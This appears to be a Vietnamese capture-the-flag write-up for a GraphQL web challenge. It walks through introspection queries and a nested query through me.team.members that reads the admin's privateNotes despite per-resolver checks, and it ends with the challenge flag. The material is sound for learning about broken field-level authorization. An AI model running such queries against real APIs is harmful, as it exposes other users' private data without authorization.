










## Đề bài
Progress relies on having the right infrastructure to foster collaboration. A frictionless system for the exchange of ideas, integrity-preserving measures, and plenty of backup. There are many platforms on the market for this. Well, I'm developing my own. It's not the best. It's not the fastest. It's not the most resilient. But it is the one that I own the IP rights for, so I'm pushing it hard. Since I have a bevy of CTF player's attention, seems like a good chance to score some free pen testing. Head over to my Collaborative Research Portal and poke around a little. I am most concerned about user security. Last thing we need is for researchers to start meddling with each others' stuff.

https://shape-of-query.pointeroverflowctf.com/
## Solution
Truy cập vào lab, ta thấy lời nhắc *"After signing in, explore the GraphQL API at `/graphql`"*. Vậy đây là một bài GraphQL:



Sau khi login bằng token mà host cung cấp ta truy cập được vào bài.



Kiểm tra thử cookie trước thì thấy 1 đoạn giống Base64 encode nên thử decode thì thu được
```json!
{"cid":81,"nonce":"JCLO26Y346U52HPX","team_id":454}
```


### Introspection — dựng lại tấm bản đồ
Comment của tác giả đã để lại gợi ý:
`# Introspection is enabled — start by exploring the schema.`
Với GraphQL, câu hỏi đầu tiên của ta luôn là: schema trông như thế nào? May mắn thay, server bật introspection.
:::info
`introspection` là cơ chế "tự khai báo" của GraphQL 
Ta gửi một query đặc biệt (`__schema`, `__type`) và server trả về toàn bộ danh sách type, field, argument. 
:::
Hỏi danh sách type:
```graphql!
{
  __schema {
    types {
      name
      kind
    }
  }
}
```
Output:
```json
{
  "data": {
    "__schema": {
      "types": [
        {
          "kind": "OBJECT",
          "name": "Query"
        },
        {
          "kind": "OBJECT",
          "name": "User"
        },
        {
          "kind": "SCALAR",
          "name": "ID"
        },
        {
          "kind": "SCALAR",
          "name": "String"
        },
        {
          "kind": "ENUM",
          "name": "UserRoleEnum"
        },
        {
          "kind": "OBJECT",
          "name": "Team"
        },
        {
          "kind": "SCALAR",
          "name": "Boolean"
        },
        {
          "kind": "OBJECT",
          "name": "__Schema"
        },
        {
          "kind": "OBJECT",
          "name": "__Type"
        },
        {
          "kind": "ENUM",
          "name": "__TypeKind"
        },
        {
          "kind": "OBJECT",
          "name": "__Field"
        },
        {
          "kind": "OBJECT",
          "name": "__InputValue"
        },
        {
          "kind": "OBJECT",
          "name": "__EnumValue"
        },
        {
          "kind": "OBJECT",
          "name": "__Directive"
        },
        {
          "kind": "ENUM",
          "name": "__DirectiveLocation"
        }
      ]
    }
  }
}
```
Trong GraphQL, `built-in` type là những type được GraphQL định nghĩa sẵn:
1. [Built-in scalar types](https://www.graphql-js.org/docs/basic-types/)

2. [Built-in introspection types](https://graphql.org/learn/introspection/)
Những type bắt đầu bằng `__` cũng được GraphQL định nghĩa sẵn để phục vụ introspection

Bỏ qua các type built-in đó, còn lại `Query`, `User`, `Team`, `UserRoleEnum` là các custom/application-defined types 

Đào tiếp từng type bằng payload sau:
```graphql
{
  queryType: __type(name: "Query") {
    fields {
      name
      type {
        name
        kind
      }
    }
  }

  userType: __type(name: "User") {
    fields {
      name
      type {
        name
        kind
      }
    }
  }

  roleType: __type(name: "UserRoleEnum") {
    enumValues {
      name
    }
  }

  teamType: __type(name: "Team") {
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}
```
Trả về output sau:
```json
{
  "data": {
    "queryType": {
      "fields": [
        {
          "name": "me",
          "type": {
            "kind": "OBJECT",
            "name": "User"
          }
        },
        {
          "name": "user",
          "type": {
            "kind": "OBJECT",
            "name": "User"
          }
        }
      ]
    },
    "roleType": {
      "enumValues": [
        {
          "name": "ADMIN"
        },
        {
          "name": "MEMBER"
        }
      ]
    },
    "teamType": {
      "fields": [
        {
          "name": "id",
          "type": {
            "kind": "NON_NULL",
            "name": null
          }
        },
        {
          "name": "name",
          "type": {
            "kind": "SCALAR",
            "name": "String"
          }
        },
        {
          "name": "members",
          "type": {
            "kind": "LIST",
            "name": null
          }
        }
      ]
    },
    "userType": {
      "fields": [
        {
          "name": "id",
          "type": {
            "kind": "NON_NULL",
            "name": null
          }
        },
        {
          "name": "username",
          "type": {
            "kind": "NON_NULL",
            "name": null
          }
        },
        {
          "name": "role",
          "type": {
            "kind": "ENUM",
            "name": "UserRoleEnum"
          }
        },
        {
          "name": "team",
          "type": {
            "kind": "OBJECT",
            "name": "Team"
          }
        },
        {
          "name": "privateNotes",
          "type": {
            "kind": "SCALAR",
            "name": "String"
          }
        }
      ]
    }
  }
}
```
rồi ghép lại, ta được schema rút gọn như sau:
```graphql!
type Query {
  me: User
  user: User
}

type User {
  id: ID!
  username: String!
  role: UserRoleEnum
  team: Team
  privateNotes: String
}

type Team {
  id: ID!
  name: String
  members: [User]
}

enum UserRoleEnum {
  ADMIN
  MEMBER
}
```
Đoạn cần lưu ý nằm ở hai chỗ:
```
User.privateNotes : String      <-- field mục tiêu, chỗ cất bí mật
User.team         : Team        <-- Từ User lấy Team qua `team`
Team.members      : [User]      <-- Từ Team lấy User khác qua `members`
```
Field `privateNotes` rõ ràng là nơi cất flag của admin. 
Ta có `User.team.members: [User]` là một quan hệ tự tham chiếu vòng.
-> Thử `nested authorization bypass`

### Thử dùng `user(id)` để đọc thẳng `privateNotes` của admin
Trước khi khai thác, phải biết chính xác cái gì bị chặn, cái gì không. Đọc chính mình qua `me`:

1. Ta là `MEMBER` chứ không phải là `ADMIN` 
2. `privateNotes` của bản thân đọc được bình thường
→ resolver có trả field này, vấn đề là có thể đọc được của người khác không

Vấn đề là chỉ có `me` và `user`, mà `me` chỉ tra `privateNotes` của bản thân nên giờ ta cần tìm cách tận dụng `user`. Để sử dụng được `user`, ta phải kiểm tra `user` trong `Query` nhận `argument` gì, hãy introspect `args` của field `user`:
```graphql
{
  __type(name: "Query") {
    fields {
      name
      args {
        name
        type {
          name
          kind
        }
      }
    }
  }
}
```

Vậy `Query` có schema rút gọn thật sự như sau:
```graphql
type Query {
  me: User
  user(id: ID!): User    # Bắt buộc truyền tham số id 
}
```

Ta đã có `id` của `me`. Tìm cách sử dụng `user` của `Query` để truy cập vào `me` thử xem có đưa ra output giống khi truy cập trực tiếp bằng `me` không.
Thử thay `me` = `user(id:"user_454")` cho ra kết quả tương tự nhau


Vậy ta thử đi cửa chính `user(id)` để đọc thẳng `privateNotes` của admin. Trước hết phải đọc được id của admin đã.

Ta thử đọc `user(id:"admin_454")` của admin

Resolver `user(id)` có kiểm tra quyền: chỉ cho đọc chính mình, hỏi user khác thì trả `null`. 
### Lỗ hổng — Broken Field-Level Authorization
Bản chất GraphQL: quyền đọc một field phụ thuộc vào ĐƯỜNG ĐI (path) tới field đó, chứ không phải bản thân field. 
Ở bài này, tác giả cài quyền ở resolver top-level (`me`, `user(id)`). Nhưng khi ta chạm tới cùng object `User` qua một resolver trung gian khác (`Team.members`) thì field `privateNotes` không tự kiểm tra lại quyền một lần nữa.
-> Tận dụng đúng quan hệ vòng `Team.members` để chạm đến object admin, ta có Payload: 
```graphql!
{
  me{ 
    team {
      members {
        id
        username
        role
        privateNotes
      }
    }
  }
}
```
Khung response bên phải hiện luôn flag ở `privateNotes` của phần tử role `ADMIN`:


Đây chính là phiên bản GraphQL của [Broken Object/Field Level Authorization](https://owasp.org/API-Security/editions/2023/en/0xa1-broken-object-level-authorization/) (BOLA/BFLA, thuộc OWASP API Security Top 10): cùng một field `privateNotes`, nhưng có hai con đường tới nó (`Query.user` và `Team.members`), tác giả chỉ vá đúng một cửa.
-> Flag: `POCTF{81.454.JCLO26Y346U52HPX.Q3DYMABQPEVVLI5ZZN2WIVVAL4}`
